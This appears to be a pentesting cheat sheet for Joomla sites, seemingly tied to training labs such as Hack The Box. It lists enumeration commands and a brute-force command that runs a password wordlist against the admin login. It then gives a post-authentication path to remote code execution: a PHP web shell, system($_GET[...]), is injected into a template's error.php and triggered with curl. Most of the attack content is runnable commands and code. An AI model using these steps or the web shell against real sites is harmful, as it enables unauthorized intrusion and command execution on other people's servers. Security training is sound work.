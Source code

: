 # 🧩 Joomla Pentesting Checklist & Commands

## 🎯 What am I realistically expecting to find here?

⭐ After discovering a Joomla CMS site, I realistically expect to:

- [ ] Identify Joomla version (possible RCE/CVE match)
- [ ] Access file listings and version info via XML files
- [ ] Enumerate manually or via scanners
- [ ] Login brute-force as admin
- [ ] Gain RCE via template editing (post-auth)
- [ ] Extract useful info from `/robots.txt`, `README.txt`

---

## ✅ Manual Enumeration

- [ ] **Check Joomla Version (official source)**
  ```
  curl -s https://developer.joomla.org/stats/cms_version | python3 -m json.tool
  ```

- [ ] **Check If Joomla**
  ```
  curl -s http://<target>/ | grep Joomla
  ```

- [ ] **Check `/robots.txt` and `README.txt`**
  ```
  curl -s http://<target>/robots.txt
  curl -s http://<target>/README.txt | head -n 5
  ```

- [ ] **Version from joomla.xml**
  ```
  curl -s http://<target>/administrator/manifests/files/joomla.xml | xmllint --format -
  ```

- [ ] **Version hint from cache.xml**
  ```
  curl -s http://<target>/plugins/system/cache/cache.xml
  ```

---

## ✅ Automated Enumeration

- [ ] **Using joomlascan**
  ```
  python2.7 joomlascan.py -u http://<target>
  ```

- [ ] **Using droopescan**
  ```
  droopescan scan joomla --url http://<target>
  ```

- [ ] **Brute Force Login**
  ```
  sudo python3 joomla-brute.py -u http://<target> -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
  ```

---

## ✅ Path to RCE (Post-Auth)

After successful login as `admin`:

1. Navigate to:
   ```
   Templates → [choose a template] → Customize → error.php
   ```

2. Inject PHP shell:
   ```php
   system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
   ```

3. Trigger command execution:
   ```
   curl -s http://<target>/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id
   ```

   Example:
   ```
   http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id
   http://dev.devvortex.htb/templates/cassiopeia/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id
   ```

⚠️ **Always clean up your web shell after use and document filename, path, and hash in your final report.**

---

## ✅ CMS Enumeration Tools Reference

- `joomlascan.py` → Joomla-specific scanner
- `droopescan` → Generic CMS scanner (limited output for Joomla)
- `joomla-brute.py` → Brute-force login script

---

Let me know if you want the Drupal or Magento version next 😉
